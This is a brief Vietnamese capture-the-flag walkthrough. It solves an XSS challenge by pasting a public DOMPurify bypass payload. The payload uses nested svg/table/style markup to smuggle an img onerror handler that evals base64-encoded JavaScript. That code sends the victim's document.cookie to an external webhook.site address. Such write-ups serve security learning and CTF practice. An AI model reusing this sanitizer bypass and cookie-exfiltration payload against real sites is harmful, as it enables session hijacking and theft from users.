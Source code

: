 # Đề bài:
![Screenshot 2024-11-08 213448](https://github.com/user-attachments/assets/4bd306ad-6cad-4e85-bc68-204930bc9c7e)

# Walkthrough:
- Bài sử dụng DOMpurify bản mới nhất là 3.17, do đó ta phải tìm kiếm trên mạng payload để bypass
- Ta tìm thấy: https://x.com/kinugawamasato/status/1843687909431582830
- Payload:
```
<svg><a><foreignobject><a><table><a></table><style><!--</style></svg><a id="-><img src onerror=eval(atob('ZmV0Y2goJ2h0dHBzOi8vd2ViaG9vay5zaXRlLzNmMDIxNzM2LTA2YmItNDgzNS1iZDgyLTU1ZDFlYjEzNmM4Nj9jb29raWU9JyArIGVuY29kZVVSSUNvbXBvbmVudChkb2N1bWVudC5jb29raWUpKQ=='))>">">
```

